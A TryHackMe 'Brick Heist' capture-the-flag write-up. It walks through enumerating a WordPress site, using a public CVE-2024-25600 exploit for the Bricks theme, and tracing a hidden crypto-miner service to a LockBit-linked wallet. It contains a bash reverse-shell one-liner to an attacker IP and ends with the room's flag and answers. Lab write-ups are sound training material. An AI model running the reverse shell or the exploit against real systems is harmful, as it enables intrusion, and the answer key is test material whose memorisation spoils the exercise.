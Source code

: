 ### Brick Heist
---

**Given Basic Info:**
Brick.By.Brick.v.2.1
Machine ID: **10.10.3.78 bricks.thm**
*Added to /etc/hosts*

---
#### Process

I started with nmap just so I can see which services and/or ports are available

nmap -nP -sV -sC 10.10.3.78

I wont paste the whole result because of -sC but:

Nmap scan report for 10.10.3.78
Host is up (0.16s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Python http.server 3.5 - 3.10
443/tcp  open  ssl/http Apache httpd
3306/tcp open  mysql    MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

443 it's open so 10.10.3.78:443 or https://bricks.thm
The logo at the top of the web indicates wordpress.

Since it's wordpress, I'll try **wpscan** with --url attribute prompt

Didnt work.

the output saying "Scan Aborted: The url supplied 'https://bricks.thm/' seems to be down (SSL peer certificate or SSH remote key was not OK)" led me trying **--disable-tls-checks**

It's confirmed it WordPress 6.5. Detected entries:

/wp-admin/ 
/wp-admin/admin-ajax.php

So I looked into them aaand there's the wp login page.

Found out that *The most common reasons WordPress websites get hacked are vulnerabilities in plugins and themes and compromised WordPress admin accounts.*

So I looked at that info with Wappalyzer, it says the theme is bricks, the wpscan with --disable-tls-checks shows the bricks version as 1.9.5

I found an exploit of that theme in github **https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/tree/main** so i cloned it and exec.

Just to end up receiving me the new the PEP 668 error about forcing the usage of virtual environments in order to prevent conflicts and inconsistencies between packages managed by the OS and those managed by pip.

So yes, I needed to do that whole thing. (venv)

Installed the required dependencies one by one (in total 5 or 6)

executed the exploit CVE-2024-25600.py

gained access and looking at the files theres the .txt file which the flag **(Question 1 done)**

When trying to do a systemctl it closed and had to execute the CVE over again.

Decided  to do a reverse shell to scale privileges, tbh I didnt know how to do it. I found out that in the local machine I had to enable a listener port so **netcat -l -p 1234**

in the target machine I found the command which is "bash -c 'exec bash -i &>/dev/tcp/10.8.125.95/1234 <&1" (/dev/tcp/LOCAL_IP/PORT)

Doing that I could get the command shell

Systemctl | grep running

There was a service called ubuntu.service **(Question 3 done)** with "TRYHACK3M" description

systemctl cat ubuntu.service 

it's initialized by ExecStart=/lib/NetworkManager/**nm-inet-dialog** **(Question 2 done)**

Searching that place there's two files matching names: nm-inet-dialog and inet.conf

both of them were too long so I used command **head** 

nm-inet-dialog is not readable
inet.conf it's somewhat a miner log with the ID: **(Question 4 done)** 757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d

To be honest I didnt know what was that, after searching about a possible explanation, I had to decode. There's a cool tool I found called cyberchef "https://gchq.github.io/CyberChef/" and there's the option of trying to decode in several ways a code with "magic" option.

This is the output

bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa

seems it's repeated but the one I need is the first one 

bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa **(Question 5 done)**

I searched for that adress at https://www.blockchain.com/explorer

a wallet bc1qy-l67qa has been found. After searching each transaction number in google, there's one with importance because of a Office of Foreign Assets Control sanction: **bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r** owned by *"KONDRATIEV, Ivan Gennadievich"*. Searching that name in google there's a referenced group called "LockBit" **(Question 6 Done)**

And that's it.

#### Questions

1. What is the content of the hidden .txt file in the web folder?
THM{fl46_650c844110baced87e1606453b93f22a}

2. What is the name of the suspicious process?
nm-inet-dialog

3. What is the service name affiliated with the suspicious process?
ubuntu.service

4. What is the log file name of the miner instance?
inet.conf

5. What is the wallet address of the miner instance?
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

6. The wallet address used has been involved in transactions between wallets belonging to which threat group?
LockBit